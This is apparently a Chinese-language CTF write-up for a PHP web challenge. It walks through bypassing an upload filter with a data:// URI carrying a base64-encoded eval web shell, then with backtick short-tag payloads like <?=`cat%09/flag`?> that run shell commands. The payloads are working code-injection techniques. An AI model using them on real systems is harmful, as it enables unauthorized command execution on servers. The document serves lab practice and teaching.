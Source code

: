 ![9-1.png](9-1.png)

接下来考虑怎么传数据来绕过这个正则表达式, 这里主要过滤的是 `eval` (执行任意代码) 和 `php://` 开头的伪协议, 考虑构造 `data://` 伪协议:

```
http://ad72d8b5-5089-40f0-8e09-0bd2eef5e8f6.node5.buuoj.cn:81/?action=upload&data=data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTs/Pg==
```

还是被拦截了, 应该是因为匹配了解码之后的内容。

再审计一下, 发现 ``<?=`ls`?>`` 这样的结构绕过:

- `<?= cmd ?>` = `<?php echo cmd;?>`
- `` ` ` `` 可以直接执行其中的命令

编辑后直接访问: 
```
http://ad72d8b5-5089-40f0-8e09-0bd2eef5e8f6.node5.buuoj.cn:81/sandbox/e0cd7c28b74327b3bd1472378bdfbfa2/index.php
```

发现执行了结果:

![9-2.png](9-2.png)

那就可以构造 payload 来找 flag 在哪了, 这里用 ``<?=`ls%09/`?>`` 的方式来绕: 

![9-3.png](9-3.png)

最终payload:

```
http://ad72d8b5-5089-40f0-8e09-0bd2eef5e8f6.node5.buuoj.cn:81/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

![9-4.png](9-4.png)

